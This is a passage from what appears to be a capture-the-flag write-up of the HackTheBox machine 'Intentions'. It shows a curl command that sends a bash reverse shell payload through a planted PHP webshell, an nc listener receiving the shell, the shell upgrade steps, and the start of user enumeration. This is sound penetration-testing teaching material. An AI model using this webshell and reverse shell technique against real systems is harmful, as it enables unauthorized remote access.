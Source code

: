     bad image path
    

I came across this several ways. One way this comes up is copying the POC from
the blog, which comes with extra spaces in the payload and cause this result.

### Shell

To get a shell from the webshell, I’ll just send a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) payload. I’ll put it in
the POST body (I used `$_REQUEST` to read `cmd` from either GET parameters or
POST body):

    
    
    oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"' 
    

This just hangs, but at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.220 43878
    bash: cannot set terminal process group (1070): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@intentions:~/html/intentions/storage/app/public$
    

I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@intentions:~/html/intentions/storage/app/public$ script /dev/null -c bash
    <ntions/storage/app/public$ script /dev/null -c bash      
    Script started, output log file is '/dev/null'.
    www-data@intentions:~/html/intentions/storage/app/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    echwww-data@intentions:~/html/intentions/storage/app/public$
    

## Shell as greg

### Enumeration

#### Home / Web Directories

There are three users with home directories in `/home`:

    
    
    www-data@intentions:/home$ ls
    greg  legal  steven
    